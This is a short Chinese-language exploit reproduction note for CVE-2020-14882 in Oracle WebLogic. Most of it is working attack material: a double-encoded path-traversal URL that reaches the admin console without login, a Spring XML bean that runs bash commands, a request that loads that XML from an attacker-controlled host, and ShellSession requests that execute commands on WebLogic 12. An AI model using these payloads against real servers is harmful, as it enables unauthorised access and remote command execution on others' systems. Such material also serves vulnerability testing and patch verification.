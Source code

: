 访问以下URL，即可未授权访问到管理后台页面
```
http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal
```

POC Weblogic 10
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
```
http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.56.1:8000/evil.xml")
```

POC Weblogc 12
```
http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22);

http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```
Weblogic 10 没有com.tangosol.coherence.mvel2.sh.ShellSession这个gadget，只存在于weblogic 12，weblogic10 并没有这个包，所以无法使用

# 参考链接
https://atsud0.me/2020/10/30/CVE-2020-14882%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/